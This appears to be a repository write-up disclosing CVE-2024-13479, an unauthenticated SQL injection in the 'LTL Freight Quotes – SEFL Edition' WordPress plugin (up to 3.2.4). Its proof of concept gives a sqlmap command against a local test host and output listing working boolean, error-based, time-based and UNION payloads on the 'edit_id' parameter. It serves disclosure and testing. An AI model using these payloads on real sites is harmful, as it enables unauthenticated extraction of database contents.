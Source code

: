 # CVE-2024-13479
LTL Freight Quotes – SEFL Edition <= 3.2.4 - Unauthenticated SQL Injection

# Description

The LTL Freight Quotes – SEFL Edition plugin for WordPress is vulnerable to SQL Injection via the 'dropship_edit_id' and 'edit_id' parameters in all versions up to, and including, 3.2.4 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: ltl-freight-quotes-sefl-edition
- **Affected Version**: 3.2.4
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2024-13479
- **Status**: Active

POC
---

```
sqlmap.py -u 'http://kubernetes.docker.internal:8929/wp-admin/admin-ajax.php' --data='action=en_wd_edit_warehouse&edit_id=1&wp_nonce=13db5f2e7d' --level=2 --dbms='MySQL '

[*] starting @ 15:35:17 /2025-02-20/

[15:35:18] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: edit_id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND 8084=8084&wp_nonce=13db5f2e7d

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND GTID_SUBSET(CONCAT(0x7170787171,(SELECT (ELT(3874=3874,1))),0x717a627171),3874)&wp_nonce=13db5f2e7d

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND (SELECT 8170 FROM (SELECT(SLEEP(5)))Gvfy)&wp_nonce=13db5f2e7d

    Type: UNION query
    Title: Generic UNION query (NULL) - 20 columns
    Payload: action=en_wd_edit_warehouse&edit_id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170787171,0x6e57584a4f524f56504572467179796c6a6c6c527872646a73464444414144707067736542565243,0x717a627171),NULL,NULL,NULL,NULL,NULL-- -&wp_nonce=13db5f2e7d
---
[15:35:18] [INFO] testing MySQL
[15:35:18] [INFO] confirming MySQL
[15:35:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.2.21, Apache 2.4.59
back-end DBMS: MySQL >= 8.0.0

```

